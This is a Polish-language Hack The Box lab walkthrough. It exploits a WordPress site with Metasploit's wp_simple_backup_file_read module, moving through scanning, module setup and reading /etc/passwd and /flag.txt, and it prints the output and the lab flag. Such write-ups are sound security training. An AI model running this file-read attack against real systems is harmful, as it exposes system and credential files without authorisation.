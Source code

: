 # HTB - Exploit WordPress poprzez Metasploit (Port 32219)

---

## 1. Pingowanie celu

```bash
ping 94.237.48.12
```
## 2. Skanowanie portów na celu (szukanie otwartych usług)

Błędne:

```
nmap -sV -sC 94.237.48.12:32219
```

Poprawne:

```
nmap -sV -O -p 32219 94.237.48.12
```
Wynik:
```
PORT      STATE SERVICE VERSION
32219/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

## 3. Wyszukanie exploitów w ExploitDB

```
searchsploit wordpress 2.7.10
```

## 4. Uruchomienie Metasploit Framework

```
msfconsole
```

## 5. Wyszukanie exploita w Metasploit

```
search exploit wordpress 2.7.10
```
## 6. Użycie modułu do czytania plików przez WordPress

```
use auxiliary/scanner/http/wp_simple_backup_file_read
```

## 7. Ustawienie parametrów modułu

```
set RHOSTS 94.237.48.12
set RPORT 32219
set FILEPATH /etc/passwd
```

### 8. Uruchomienie exploita

```
exploit
```
Rezultat:

Pobranie pliku /etc/passwd i zapisanie go lokalnie.
### 9. Podejrzenie zawartości pliku

```
cat /home/htb-ac-1966836/.msf4/loot/20250803043733_default_94.237.48.12_simplebackup.tra_770736.txt
```

Przykład wyjścia:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```


## 10. Pobranie flagi z pliku /flag.txt

```
set FILEPATH /flag.txt
run
```

## 11. Odczytanie flagi

```
cat /home/htb-ac-1966836/.msf4/loot/20250803044123_default_94.237.48.12_simplebackup.tra_766970.txt
```

Flaga:

```
HTB{my_f1r57_h4ck}
```

